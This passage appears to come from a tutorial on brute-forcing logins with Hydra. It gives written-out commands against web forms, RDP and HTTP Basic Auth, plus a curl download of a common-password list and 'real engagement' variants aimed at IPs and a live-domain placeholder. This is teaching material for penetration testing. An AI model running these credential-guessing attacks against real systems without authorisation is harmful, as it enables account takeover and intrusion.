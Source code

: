 4. Web Form Login

`hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`

5. Advanced RDP Attack

`hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp`


# Basic HTTP Authentication

Basic Auth is a simple way websites protect certain pages. It works by asking for a username and password before giving access.

When you try to open a protected page, the server replies with a 401 Unauthorized status and tells your browser it needs login credentials. Your browser shows a login popup.

If you enter your username and password, your browser combines them like this:

`username:password`

Then it encodes that string in Base64 and sends it in the Authorization header like:

`Authorization: Basic <encoded_credentials>`

The server decodes it, checks the credentials, and either grants or denies access.


Download a password list:

`curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt`

Run Hydra:

`hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt <IP:PORT> http-get / -s 81`


# Login Forms

When Hydra is used against a login form in a real-world scenario, you won’t be pointing it at localhost or a placeholder string like IP — you’ll target the actual server’s IP address or domain name.


`hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"`

In a real engagement, if the login form is hosted at http://192.168.56.10:8080/login, the command becomes:

`hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f 192.168.56.10 -s 8080 http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid credentials"`

Or, if it’s on a live domain such as `portal.example.com`:

`hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f portal.example.com http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid credentials"`
